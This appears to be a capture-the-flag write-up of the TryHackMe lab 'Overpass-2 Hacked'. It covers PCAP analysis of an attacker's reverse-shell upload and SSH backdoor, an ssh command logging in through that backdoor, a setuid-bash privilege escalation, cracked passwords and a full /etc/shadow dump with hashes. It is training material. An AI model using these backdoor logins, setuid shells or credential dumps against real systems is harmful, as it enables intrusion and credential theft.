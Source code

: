 # THM: Overpass-2 Hacked
# OS: Linux (Easy)

----

[NOTES]
- The attacker used `/development/upload.php` to upload a php reverse shell.
- Found creds (internal)
  `james:whenevernoteartinstant`
- James can run everything as sudo
- The attacker has an ssh backdoor at 0.0.0.0:2222
  `User: james`
  `Pass: november16`
  `File: /home/james/.ssh/id_rsa`
- Cracked 4/5 passwords from /etc/shadow
  secret12
  secuirty3
  1qaz2wsx
  abcd123

Usernames:
  - System:
    james
    paradox
    szymex
    muirland
    
Passwords:
  - System:
    james:whenevernoteartinstant
    paradox:secret12
    szymex:secuirty3
    bee:1qaz2wsx
    muirland:abcd123

----

[PCAP Analysis]

- Extracted files from PCAP:
  index.html
  'upload(1).php'
  upload.php ----> Has the attackers payload
  uploads
- Found what the attacker did from his shell at pcap line 31 by following the tcp stream.
- The attacker viewed `/etc/shadow`
- The attacker installed an ssh backdoor:
  [NinjaJc01-Backdoor](https://github.com/NinjaJc01/ssh-backdoor)

----

## Foothold

- Got access by using the backdoor on port 2222
  Creds | james:november16
  `ssh -oHostKeyAlgorithms=+ssh-rsa james@$ip -p 2222`

## Privesc

- They created a `.setuid_bash` at james' home directory
  `./.setuid_bash -p`

----

[LOOT]

```/etc/shadow
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
